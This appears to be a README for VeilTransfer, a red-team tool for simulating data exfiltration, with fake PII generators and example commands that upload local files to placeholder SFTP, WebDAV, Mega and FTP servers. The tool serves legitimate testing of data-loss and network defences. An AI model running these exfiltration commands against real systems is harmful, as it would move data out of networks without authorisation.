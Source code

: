 - **Indonesia Identity Card (KTP) Numbers:** Generate realistic KTP numbers and associated data.
- **Credit Card Information:** Create fake credit card details in PCI DSS format, including First Name, Last Name, CCN (Visa/MasterCard/AMEX), and Expiration Date.
- **Social Security Numbers (SSN):** Generate fake SSNs for use in simulations and testing environments.
- **Medical Records:** Generate fake medical record data in Indonesian (id) or English (en).

### Zip Data Creation
Easily create zip files for bundling and compressing data, which can then be used for exfiltration or testing different scenarios. Supports optional splitting into multiple files based on size.

## Example Use Cases
* **Red Team Operations:** Deploy VeilTransfer during red team exercises to challenge blue teams with sophisticated and realistic exfiltration scenarios.
* **Purple Teaming:** Collaborate with your defensive teams to simulate and then detect exfiltration attempts, refining both offensive and defensive tactics.
* **Security Testing:** Use VeilTransfer to validate the effectiveness of DLP, NDR, firewall, and other network security measures.

## Example Usage

### Transfer

#### Transfer a File via SFTP
This example demonstrates how to securely transfer a file to a remote server using the SFTP protocol. The file is located on the local machine, and it's transferred to the specified remote directory using SSH authentication.
```bash
veiltransfer_client sftp -localPath (/path/to/file or /path/to/directory) -remoteDir /remote/path -server example.com:22 -username user -password pass
```

#### Transfer Files to a WebDAV Server
In this example, files from a local directory are uploaded to a WebDAV server. The server requires a username and password for authentication. The server parameter includes the URI scheme (https:// or http://).
```bash
veiltransfer_client transfer webdav -localPath (/path/to/file or /path/to/directory) -remoteDir /remote/path -server http://webdav.example.com:8080 -username user -password pass
```

#### Transfer Files to Mega Cloud
This example shows how to transfer files to Mega Cloud storage. The files are uploaded from a specified local directory, and the authentication is handled using the user's Mega Cloud credentials.
```bash
veiltransfer_client transfer mega -localPath (/path/to/file or /path/to/directory) -username megauser@example.com -password megasecretpassword
```

#### Transfer Files via FTP
This example, a file is uploaded to an FTP server. The file is transferred to a specific directory on the remote server. The server requires a username and password for authentication.
```bash
veiltransfer_client transfer ftp -localPath (/path/to/file or /path/to/directory) -remoteDir /remote/path -server ftp.example.com:21 -username ftpuser -password ftppassword
```
